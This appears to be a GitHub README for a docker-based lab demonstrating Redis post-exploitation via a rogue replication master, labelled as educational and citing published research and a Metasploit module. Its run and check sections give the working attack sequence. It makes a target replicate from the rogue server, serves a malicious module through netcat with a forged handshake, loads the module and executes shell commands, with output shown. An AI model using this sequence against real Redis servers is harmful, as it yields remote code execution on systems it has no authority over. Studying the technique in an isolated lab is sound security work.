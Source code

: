 # redis-post-exploitation

For educational purposes only

## Reference
- https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf
- https://paper.seebug.org/975/
- https://github.com/rapid7/metasploit-framework/blob/a2675c13e88dc1df9e6cfed9021b2a5d4f82d231/modules/exploits/linux/redis/redis_replication_cmd_exec.rb#L67
- https://github.com/rapid7/metasploit-framework/tree/a2675c13e88dc1df9e6cfed9021b2a5d4f82d231/data/exploits/redis/exp

## Rogue Server
- https://github.com/knqyf263/redis-rogue-server

## Build

```
$ docker-compose build
```

## Run

```
$ docker-compose up -d
$ docker-compose exec rogue sh
```

```
/rogue/redis-rogue-server # redis-cli replicaof rogue 6379 
/rogue/redis-rogue-server # ( echo "+PONG"; echo "+OK"; echo "+OK"; echo "OK"; echo "\$42192"; cat exp.so ; ) | nc -lk -p 10000
```

## Check

```
/rogue/redis-rogue-server # redis-cli
127.0.0.1:6379> MODULE LOAD ./dump.rdb
OK
127.0.0.1:6379> shell.exec "whoami"
"redis\n"
```

